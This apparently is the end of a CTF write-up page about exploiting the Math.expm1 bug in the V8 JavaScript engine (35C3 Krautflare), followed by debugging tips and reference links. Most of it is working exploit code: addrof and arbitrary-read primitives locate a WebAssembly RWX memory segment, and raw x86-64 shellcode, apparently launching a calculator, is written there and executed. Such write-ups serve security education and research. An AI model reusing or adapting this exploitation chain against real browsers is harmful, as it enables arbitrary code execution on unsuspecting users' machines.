 ```js
let buf = new ArrayBuffer(0x100);
let dv = new DataView(buf);

buf_addr = addrof(buf).f2i();
oob_addr = addrof(oob_rw_buffer).f2i();
let diff = buf_addr-oob_addr+72n; //from the OOB array to array buffer 

console.log("[+] ArrayBuffer addr: " + buf_addr.hex());
console.log("[+] Offset btw oob and arraybuffer: " + diff);


// wasm for RWS shellcode
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

var shellcode=[0x90909090,0x90909090,0x782fb848,0x636c6163,0x48500000,0x73752fb8,0x69622f72,0x8948506e,0xc03148e7,0x89485750,0xd23148e6,0x3ac0c748,0x50000030,0x4944b848,0x414c5053,0x48503d59,0x3148e289,0x485250c0,0xc748e289,0x00003bc0,0x050f00];

rwx = arb_read(addrof(wasmInstance).f2i() +0x00e8n -1n);
console.log("[+] Got the Address of RWX segment: " + rwx.hex());
shell_write(rwx, shellcode);
func(); 
```

To get the follow files, you can visit [here](https://github.com/tourpran/pwn-hub/tree/main/v8-exp/expm1-35C3).

## Debugging Tools:
- The helper code for GDB can be found in `src/objects-printer.cc`.
- The node structure comprises a variety of methods, including:
  - **Methods:**
    - `new`, `clone`, `isDead`, `kill`, etc.
  - **Variables:**
    - Includes operation descriptions (e.g., `opcode` related) and properties.

- Use the following flags for additional insights:
  - `--trace-turbo`: Generates the Turbolizer graph.
  - `--trace-representation`: Provides feedback types and information about each optimization phase.

## Useful Links:
- [Exploiting Math.expm1 in V8](https://abiondo.me/2019/01/02/exploiting-math-expm1-v8)
- [Krautflare: A Deep Dive](https://www.jaybosamiya.com/blog/2019/01/02/krautflare/)